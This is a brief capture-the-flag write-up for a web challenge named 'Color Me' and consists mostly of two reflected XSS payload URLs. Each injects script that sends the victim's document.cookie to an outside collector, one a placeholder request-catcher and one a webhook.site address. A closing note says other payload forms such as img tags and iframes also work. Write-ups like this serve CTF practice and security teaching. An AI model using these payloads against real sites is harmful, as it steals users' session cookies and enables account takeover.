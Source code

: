 # Color Me

Exploit: Reflected XSS

```
https://colorme.ctf.maplebacon.org/?colour=<script>fetch('requestcatcherURLhere?c='%2B(document.cookie))</script>
```

Second intended solution:
```
https://colorme.ctf.maplebacon.org/?colour=%22;%20fetch(%27https://webhook.site/62fdd4d7-646c-4052-af6f-7ff7c4f5c025?c=%27%2B(document.cookie));const%20ignore%20=%20%22
```

NOTE: You can use all sorts of different XSS payloads - `img` tags, `iframes`, etc etc.